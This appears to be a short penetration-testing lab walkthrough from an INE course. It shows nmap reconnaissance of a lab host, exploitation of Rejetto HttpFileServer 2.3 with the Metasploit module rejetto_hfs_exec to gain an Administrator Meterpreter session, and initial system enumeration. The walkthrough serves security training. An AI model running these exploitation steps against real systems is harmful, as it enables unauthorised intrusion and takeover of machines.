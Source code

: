 # 🔬 Windows Post-Exploitation

> 🔬 INE LAB
>
> - Target IP: `10.2.16.155`
> - **Local Windows Enumeration**

> 📝📌 **Always document and save all the Post-Exploitation Local Enumeration in a local file.**

## Enumeration & Exploitation

```bash
nmap -sV 10.2.16.155
    80/tcp    open  http         HttpFileServer httpd 2.3
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    3389/tcp  open  ssl/ms-wbt-server?
    49152/tcp open  msrpc        Microsoft Windows RPC
    49153/tcp open  msrpc        Microsoft Windows RPC
    49154/tcp open  msrpc        Microsoft Windows RPC
    49155/tcp open  msrpc        Microsoft Windows RPC
```

```bash
searchsploit rejetto
service postgresql start && msfconsole -q
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
setg RHOSTS 10.2.16.155
setg RHOST 10.2.16.155
run
	meterpreter >
```

## Local Enumeration

### System Information

- In the **`Meterpreter`** session

```bash
getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
```
